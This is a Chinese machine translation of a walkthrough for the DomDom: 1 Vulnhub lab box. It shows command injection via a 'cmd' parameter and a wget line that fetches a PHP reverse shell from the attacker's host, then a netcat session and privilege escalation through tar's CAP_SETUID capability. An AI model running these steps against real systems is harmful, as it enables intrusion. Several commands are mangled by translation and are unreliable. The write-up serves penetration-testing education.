# DomDom: 1 漫游| Vulnhub

> 原文：<https://infosecwriteups.com/domdom-1-walkthrough-vulnhub-eee2378702f4?source=collection_archive---------2----------------------->



朋友们，你们好，我是迪尼杜·贾亚辛格，这是我的第四篇文章。本文是对 **DomDom: 1 Vunhub box** 的演练。这个盒子也是一个引导到根的初级挑战。你可以在这里找到这个来自[的 Vulnhub 盒子。](https://www.vulnhub.com/entry/domdom-1,328/)

# 方法学

*   网络扫描
    👉识别正在运行的服务&开放端口( **Nmap** )
*   枚举/侦察
    👉网页目录( **DIRB** )
    👉易受 RCE ( **打嗝组曲**)攻击
*   漏洞利用
    👉上传后门( **PHP 反向外壳** )
    👉Spawn shell ( **Netcat 会话**)
*   权限提升
    👉滥用能力权限

# 游戏攻略

## 网络扫描

📌️在扫描的第一步，我使用了 arp-scan -l 命令来执行本地网络扫描，以找出目标机器的 IP 地址。

> 命令: **arp-scan -l**



📌️在得到目标机器的 IP 地址后，我对我的目标进行了一次 Nmap 扫描。我用过，
👉 **-sV** :至应用版本扫描
👉 **-A** :至操作系统检测、脚本扫描、跟踪路由(主动扫描)

> 命令:**nmap-sV-A-T4-p-192 . 168 . 56 . 110**



📌️从这个 Nmap 扫描中，我发现那里的 **tcp 80 端口**是打开的。这意味着我们可以在浏览器上浏览这个 IP。在这个页面中向我们展示了一些登录界面。



## 查点/侦察

📌️:在这一部分，我使用 dirbuster 工具来列举这个目标的有趣的子域。

> 命令:**dirb http://192 . 168 . 56 . 110**



📌️:我发现了一个有趣的东西，那就是

****

**📌️:所以现在我探索 http://192 . 168 . 56 . 110 并在我的 BurpSuit 中打开拦截来捕获 http 请求。**

****

**📌然后，️将截获的数据发送到中继器，以识别正在执行的操作。现在将 POST 请求从 **/index.php** 更改为 **/admin.php** 以标识该动作。**

> **改:POST/**admin.php**HTTP/1.1**

****

**📌️酷！！我们发现了一个内置的脚本，它从命令的响应中执行命令。**

**📌️为了确保我们有后端功能，我们尝试发出执行“id”命令的请求，并获得预期的结果。**

> **name = admin & username = admin & password = admin & access = access &**cmd = id****

****

**📌️:所以我找到了恶意代码可以被执行的方式，或者将恶意文件注入到反向连接机器的主机中。**

**📌为此，我从 Pentestmonkey 获得了 **php-reverse-shell** 。我改变了外壳代码的 IP 地址和端口。**

****

## **剥削**

**📌️So:现在我立即创建了一个 web 服务器，通过浏览器立即为那个 **php-reverse-shell** 文件提供服务，而不用安装任何 web 服务器。**

> **命令: **python -m SimpleHTTPServer****

****

**📌️Now 使用 BurpSuite 从我的 Kali box 下载这个 **php-reverse-shell** 到目标机器。**

> ****cmd = wget http://192 . 168 . 56 . 105/PHP-reverse-shell . PHP****

********

**📌️在下载了那个 **php-reverse-shell** 文件后我更改了那个文件的权限。(我将这三个权限都给了所有用户)**

> ****cmd = chmod 777 php-reverse-shell.php****

****

**📌️更改后，我打开我的 kali 终端，使用 **Netcat 工具**监听端口 **4545****

****

**📌️之后，我使用 BurpSuit 运行上面的 **php-reverse-shell** 文件。**

> ****cmd = PHP PHP-reverse-shell****

**📌️哇！！现在我得到了这个目标机器的远程外壳。**

****

## **权限提升**

**📌️现在我打开了**巨蟒产卵的外壳。****

> **命令: **python3 -c '导入 ptypty.spawn("/bin/bash")'****

****

**📌️在进一步的探索中， **README.md** 被从 root-owned 里面找到了 **/domom/home/desktop。****

********

**📌️:在这一点上，我想我可以使用 **getcap** 来识别二进制功能文件并看到成功的结果。**

> **命令:**getcap-r/2>/dev/null****

****

**📌️正如我们在本线程前面的图片中看到的， **"/bin/tar"** 具有压缩文件的功能。这可以修改它的进程 UID，并作为后门与 Linux 一起使用，以保留具有能力集 **CAP_SETUID** 的高特权，所以我执行以下命令来生成。 **tar README.md** 在 **/tmp** 目录下。**

> **命令: **/tmp**
> 命令:**tar-CVF readme.tar/home/domom/Desktop/readme . MD****

****

**📌当你执行上面的命令时，️ It 会在 **/tmp** 目录下生成一个**readme.tar**文件，可以提取出来进一步读取 **README.md** 文件。**

> **命令:**tar-xvf readme.tar**
> 命令:**cat/home/domom/Desktop/readme . MD****

****

**📌️酷！！我从这个文件中获得了“ **root** 的密码。现在我使用这个密码切换到 root 帐户。**

> **命令:**苏根****

****

**太棒了，现在我在**根**上了。所以我想你大概知道我在这个盒子里用的是什么机制，以及我们能从中做些什么。**

**有我写的博客。如果你对这些话题感兴趣，你可以通过超链接阅读。**

****✅** [**不同类型的恶意软件和其他攻击**](/analyzing-malware-and-other-attacks-57567fd7f77b?source=friends_link&sk=12af6b24868f0441227290c34441ecc8) **✅** [**比较不同类型的社会工程技术**](/comparing-different-types-of-social-engineering-techniques-477336207f70?source=friends_link&sk=fe448ec0c39467bbcedcf4ac70eb2195) **✅**[**cold box:easy【vulnhub】预排**](/colddbox-easy-vulnhub-walkthrough-cac3680e03c2?source=friends_link&sk=a9443dbe0162ab4aa5307e94a6e78d5f) **✅**[**基础预排:1 预排| Vulnhub**](/basic-pentesting-1-walkthrough-vulnhub-4dac91b416ff?source=friends_link&sk=cdf388e2e9c80f9f32e149230f94db77)**

# **让我们来看看另一篇文章。下次见，再见🙌祝你黑客生涯愉快😈😈。**